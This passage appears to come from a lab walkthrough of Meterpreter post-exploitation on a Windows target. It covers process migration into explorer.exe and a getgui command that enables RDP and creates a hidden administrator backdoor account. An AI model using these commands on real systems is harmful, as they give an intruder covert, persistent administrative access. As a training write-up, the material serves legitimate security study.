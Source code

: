 ```
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
```

We don't need to elevate our privileges as we've gained access as the administrator user account.

```
meterpreter > sysinfo
Architecture : x64
Meterpreter : x86/windows
```

I'm going to locate the explorer process, because I want to migrate to a stable process as this particular technique, or this set of commands that we will be running requires a stable meterpreter session.

```
meterpreter > pgrep explorer
4072
```

I'll migrate to that process.

```
meterpreter > migrate 4072
```

This should provide us withh a 64-bit meterpreter session.

```
meterpreter > sysinfo
Architecture : x64
Meterpreter : x64/windows
```

What we're going to be doing firstly, is we are going to be creating a new backdoor user account. And we have the permissions or the privileges to do so. As we are currently the administrator. We're then going to enable the RDP service, if it's disabled. We're then also going to hide the user from the Windows login screen, because one of the issues with Windows is when you create a new user account, and the system is restarted, then on the login page, it will usually display all the user accounts that are available on that system. So this will also be hiding the user from the Windows login screen. And we'll also be adding the user to the administrator group, as well as the remote desktop group on Windows, which is used to allow specific user accounts to log in via RDP. We can do this through the use of a couple of Metasploit Framework modules. However, this can be simplified into one command.

`-e`: execute

`-u`: we want to create a new user. 

It'll run the `getgui` command. The `getgui` command is specifically used to check whether the RDP service is enabled. And if it is disabled, it will enable it. Furthermore, it will also create a new user for us. And we can specify the username and password. It'll also hide the user from the Windows login screen. And it'll add the user to the remote desktop users group, as well as the local administrators group. So that means that we can access the target system via RDP, as well as have administrative privileges once we log on.

```
meterpreter > run getgui -e -u alexis -p hacker_123321
```

